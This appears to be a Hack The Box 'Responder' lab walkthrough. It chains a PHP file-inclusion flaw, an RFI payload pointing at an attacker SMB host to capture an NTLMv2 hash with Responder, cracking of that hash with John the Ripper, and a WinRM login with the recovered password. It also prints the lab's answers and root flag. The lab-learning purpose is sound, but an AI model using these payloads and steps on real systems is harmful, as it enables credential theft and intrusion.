

#### When visiting the web service using the IP address, what is the domain that we are being redirected to?

```
unika.htb
```

The website has redirected the browser to a new URL, and my host doesn't know how to find `unika.htb`. This webserver is employing name-based Virtual Hosting for serving the requests.

`Name-Based Virtual Hosting` is a method for hosting multiple domain names on a single server. The web server checks the domain name provided in the `Host` header field of the HTTP request and sends a response according to that.


<br>

The `/etc/hosts` file is used to resolve a hostname into an IP address & thus we will need to add an entry for this domain to enable the browser to resolve the address for `unika.htb`. That's why the screen is currently black showing nothing.

Entry in the `/etc/hosts` file:

`echo "10.129.172.140   unika.htb" | sudo tee -a /etc/hosts`


<br>

After we had appended the entry, I refreshed the page and the website now showed everything properly.


<br>

#### Which scripting language is being used on the server to generate webpages?

```
PHP
```


<br>

#### What is the name of the URL parameter which is used to load different language versions of the webpage?

```
page
```


<br>

#### Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) Vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```
../../../../../../../../windows/system32/drivers/etc/hosts
```

<br>

#### Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```
//10.10.14.6/somefile
```

LFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not intended to be an option for this application. A common examples is when an application uses the path to a file as input. If the applications treats this input as trusted, and the required sanitary checks are not performed on this input, then the attacker can exploit it by using the `../` string in the inputted file name and eventually view sensitive files in the local file system.

RFI or Remote File Inclusion is similar to LFI but in this case it is possible for an attacker to load a remote file on the host using protocols like HTTP, FTC, etc.

<br>

#### What does NTLM stand for?

```
New Technology LAN Manager
```

NTLM is a collection of authentication protocols created by Microsoft. It is a challenge-response authentication protocol used to authenticate a client to a resource on an Active Directory domain.

<br>

#### Which flag do we use in the Responder utility to specfiy the network interface?

```
-I
```


<br>

We just saw that `LFI` is possible as we can view the contents of the `C:\windows\system32\drivers\etc\hosts` file in the response.
The file inclusion was made possible because in the backend the `include()` method of PHP is being used to process the URL parameter `page` for serving a different webpage for different languages.

In the PHP configuration file `php.ini`, "allow_url_include" wrapper is set to "Off" by default, indicating that PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks. However, even if `allow_url_include` and `allow_url_fopen` are set to "Off", PHP will not prevent the loading of SMB URLs. In our case, we can misuse this functionality to steal the NTLM hash.

Verify that the `Responder.conf` is sent to listen for SMB requests. With the configuration file ready, we can proceed to start Responder with `python3`, passing in the interface to listen on using the `-I` flag.


<br>

Starting Responder by running the following command: `sudo python3 Responder.py -I tun0`


<br>

With the Responder server ready, we tell the server to include a resource from our SMB server by setting the `page` parameter as follows via the web browser.

`http://unika.htb/?page=//10.10.14.28/somefile`


<br>

Now we let's crack the hash using the John the Ripper.

<br>

#### There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as 'john', but the full name is what?

```
John the Ripper
```

<br>

#### What is the password for the administrator user?

```
badminton
```

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ echo "Administrator::RESPONDER:8a9c5ae98bb0afe8:B5337356E784F427FCA011E764465155:010100000000000000091E577FD5DA01F2AE6AA5DEA6
0C990000000002000800430044005500380001001E00570049004E002D0058004F004100460043004F0052005500550049004A0004003400570049004E002D005
8004F004100460043004F0052005500550049004A002E0043004400550038002E004C004F00430041004C000300140043004400550038002E004C004F00430041
004C000500140043004400550038002E004C004F00430041004C000700080000091E577FD5DA01060004000200000008003000300000000000000001000000002
0000031C85E41ABB6A4BB8A30F1CF440450559198FFDF38BC3047031571CB1CA793290A0010000000000000000000000000000000000009002000630069006600
73002F00310030002E00310030002E00310034002E00320038000000000000000000" > hash.txt
```

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ john -w=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)
1g 0:00:00:00 DONE (2024-07-14 00:02) 100.0g/s 819200p/s 819200c/s 819200C/s 123456..whitetiger
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

<br>

#### We'll use a Window service (i.e. running on the box) to remotely across the Responder machine using the password we recovered. What port TCP does it listen on?

```
5985
```


<br>

#### Submit root flag

```
ea81b7afddd03efaa0945333ed147fac
```

We will connect to the WinRM service on the target and try to get a session. Because Powershell isn't installed on Linux by default, we'll use a tool called `Evil-WinRM`.

`evil-winrm -i 10.129.172.140 -u administrator -p badminton`


<br>


